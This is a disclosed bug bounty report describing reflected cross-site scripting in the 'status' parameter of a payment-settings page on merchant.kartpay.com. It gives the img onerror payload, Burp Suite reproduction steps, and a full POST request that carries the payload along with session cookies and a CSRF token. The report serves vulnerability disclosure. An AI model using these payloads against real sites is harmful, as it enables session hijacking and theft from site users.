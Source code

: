 # Reflected XSS on https://merchant.kartpay.com/payment_settings [status]

## Report Details
- **Report ID**: 643537
- **URL**: https://hackerone.com/reports/643537
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-07-15T13:08:54.755Z
- **Disclosed**: 2019-08-28T15:27:54.390Z

## Reporter
- **Username**: august1808
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kartpay

## Vulnerability Information
#Vulnerable URL
https://merchant.kartpay.com/payment_settings/type

#Parameter
``status``

#Payload
```"><img src=x onerror=alert(domain)>```

#Steps to Reproduce
1. Login with your credentials.
2. Go to https://merchant.kartpay.com/payment_settings
3. Start Burp suite proxy and intercept on.
4. Click on Run and Save button. intercept the request.
5. Enter above payload in vulnerable parameter.
6. Right click Show response in browser. 
7. You will notice that xss will execute. 

#POST Request

```
POST /payment_settings/type HTTP/1.1
Host: merchant.kartpay.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://merchant.kartpay.com/payment_settings
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-CSRF-TOKEN: XGf5lqENEGvobu7MFdK2LfgtUoYZ2Hl6JWwYMLOV
X-Requested-With: XMLHttpRequest
Content-Length: 73
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6IkIyMkNoakFhYVVpdmFtalJUc3JZWlE9PSIsInZhbHVlIjoiYTg1TlZFeUZLNzUxaVJoOXZyV1gxSWhZaEh5eTRuWENMRXJLR05tZGZMUVRUQ2ozTWgwbG1IMUlFZ0JxcVk5ZyIsIm1hYyI6IjNhZTI4ODM0YWY3YzM5N2JhZDEzMGE1NjdiODZhZWU4ZWM4YjI1ZjhjYmJhMWNhZGFlYTdkMmQ4OTRhMmRmNDcifQ%3D%3D; laravel_session=eyJpdiI6IlZuRkhIWmMxbFU2ZFArR3lVc1hFM1E9PSIsInZhbHVlIjoiXC9KSFZhVlV4YWpSNWR2YjlFS1F0STF5QTVYMTh3Y1ZNN1hWY2RhZnAxRFArXC9KT2FmUG01UldVR3dYTHdYWE03IiwibWFjIjoiOWMyYzJlY2MwYjY2NDkyMTkxZDhlOGE4Njk0N2QwYTdkNjFkMjRlZWNlNDBjNTc3MmZiYjg5YTI1Yjc4NTkxNiJ9; _ga=GA1.2.1275163119.1563193948; _gid=GA1.2.1455926951.1563193948

merchant_id=729&type_id=5&status=false"><img src=x onerror=alert(cookie)>
```
{F529602}
{F529603}
{F529604}
{F529605}

## Impact

with the help of this attack, an attacker can execute malicious javascript on an application

## Attachments
- 1.png
- 2.png
- 3.png
- 4.png
